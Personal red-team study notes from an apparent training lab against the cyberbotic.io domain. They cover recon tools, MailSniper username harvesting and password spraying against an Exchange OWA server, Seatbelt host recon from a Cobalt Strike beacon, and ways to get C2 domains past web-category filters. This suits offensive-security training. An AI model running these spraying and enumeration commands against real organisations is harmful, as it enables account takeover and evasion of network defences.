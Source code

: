 # Cobalt Strike 
- see cobalt strike file 

# External Recon Tools

- whois 
- dig
- dnscan
- other osint tools known

# Initial compromise (DISABLE WINDOWS DEFENDER ON ATTACKER MACHINE) 

-Mail Sniper 
-namesmash.py

**Used for attacking OWA Exchange service at MAIL DOMAIN that was found during the external recon.**

**Technique: Password Spraying**

>PS C:\Users\Attacker> ipmo C:\Tools\MailSniper\MailSniper.ps1

##### Enumerate the NetBIOS name of the target domain with Invoke-DomainHarvestOWA.

>PS C:\Users\Attacker> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

##### Next, we need to find valid usernames from the list of users enumerated from https://cyberbotic.io.

>ubuntu@DESKTOP-3BSK7NO ~> cd /mnt/c/Users/Attacker/Desktop/
>ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> cat names.txt
*We could potentially skip this step if we knew the email address format from somewhere like hunter.io.*

##### Invoke-UsernameHarvestOWA uses a timing attack to validate which (if any) of these usernames are valid.

>PS C:\Users\Attacker> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

##### MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).

>PS C:\Users\Attacker> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022

##### PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

>PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

##### If there are names here that we didn't find during initial recon, we can go back and do another round of spraying against them.


# Host Recon 

## SeatBelt 

https://github.com/GhostPack/Seatbelt

Checks security configs once you have a beacon on a compromised host

1. beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system

One thing to note from this output is that there's a web proxy in place - squid.dev.cyberbotic.io.  This has implications for HTTP(S) C2 for a variety of reasons.

Web Categorisation

Domain names are categorised by vendors so that they can be lumped together for filtering purposes.  This is useful so that everything categorised as "gambling", "drugs", "violence", or "social media", etc can be blocked outright.  If the domain being used for part of your engagement ends up in a blocked category, it becomes effectively useless.

Two strategies for tackling this issue include:

    Obtaining a domain that is already in a desirable category.
    Requesting a change of category for a domain.

# Persistence 

https://github.com/mandiant/SharPersist 


# Misc Tooling 


https://sitereview.bluecoat.com/#/  <<< checks site reps and categories 

https://github.com/mdsecactivebreach/Chameleon  <<< helps categorise c2 domains for red teams 

https://github.com/cobbr/Covenant <<< allows red teams to pin their c2 certs 









